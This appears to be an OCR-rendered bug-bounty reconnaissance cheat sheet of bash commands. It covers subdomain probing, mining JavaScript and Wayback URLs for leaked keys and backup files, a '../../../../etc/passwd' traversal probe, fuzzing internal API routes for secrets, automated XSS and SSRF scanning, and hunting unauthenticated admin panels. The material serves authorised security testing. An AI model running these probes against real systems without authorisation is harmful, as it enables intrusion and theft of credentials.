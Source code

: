 ```bash

- Live Subdomain Filtering
cat subexample.com.txt | httpx-toolkit  -status-code -title -tech-detect -silent -ports 80,443,8080,8000,8888 -threads 200 > subexample.coms_alive.txt

# ! After having the live host, you can filter for the ".js" files and manually inspect them:

curl -s https://www.domain.com/static/main.js | less
#Expect something like this:
const config = {  
apiKey: "AKIAXXXXXXXEXAMPLEKEY123",  
 data=91173hsbakexampledata  
}

#Wayback Recon
waymore -i domain.com -mode U -oU waymore_domain.com.txt

 cat allurls.txt | grep -E "\.txt|\.log|\.cache|\.secret|\.db|\.backup|\.yml|\.json|\.gz|\.rar|\.zip|\.config"

#I used below linux command to match similarly that we were doing using google dorking, only long urls

cat waymore_domain.com.txt | grep "=" | grep "&" | grep "?"

# Tip: if you find this type of url which is meant for internal usage:

> #https://api.target.com/export?type=pdf&type=../../../../etc/passwd

#Try to FUZZ  it up and see if it leaks internal info with curl:

ffuf -u https://api-dev.targetcompany.com/api/v1/internal/FUZZ -w wordlist.txt -mc 200,403,500 -ac

#curl:  (writeUp by https://freedium.cfd/https://medium.com/bugbountywriteup/404-to-0wnage-how-a-broken-api-route-unlocked-production-secrets-cc8ec9c6d063)

curl https://api-dev.targetcompany.com/api/v1/internal/secrets


#Automated parameters discovery, which you can filter out later:

python3 paramspider.py -d target.com --level high -o params.txt
arjun -u https://target.com/api -m GET -o params.json

# Automated XSS Scanning: 

cat params.txt | dalfox pipe -o xss_results.txt
python3 XSSStrike/xsstrike.py -u "https://target.com/index.php?search=query"

# Automated SSRF Scanning:

python3 gopherus.py
interactsh-client -v  #Interactsh is commonly used to detect **out-of-band (OOB)** interactions, such as DNS or HTTP callbacks, during security testing—helpful for validating SSRF, RCE, XSS, etc.

#find exposed admin panels that don’t require authentication:

whatweb -i  subexample.coms_alive.txt | grep -i "admin\|dashboard\|login"

You can find many platforms like:
- Jenkins
- Kibana
- Prometheus
```